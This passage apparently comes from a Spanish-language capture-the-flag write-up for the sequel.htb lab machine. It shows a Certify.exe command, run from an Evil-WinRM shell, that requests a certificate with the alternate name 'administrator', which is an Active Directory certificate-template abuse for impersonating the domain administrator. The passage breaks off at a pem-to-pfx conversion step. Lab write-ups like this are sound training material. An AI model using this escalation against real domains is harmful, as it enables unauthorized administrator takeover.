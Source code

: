 ![20240313103714.png](20240313103714.png)

Luego haremos una petición de un certificado para el usuario `administrator`, que nos dara un `cert.pem`

```python
*Evil-WinRM* PS C:\Users\Ryan.Cooper\files> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

![20240313113118.png](20240313113118.png)

Luego copiareamos y lo guardaremos en un archivo `cert.pem` y vamos a transformar el certificado generado como `.pem` a `.pfx` con openssl de la siguiente manera
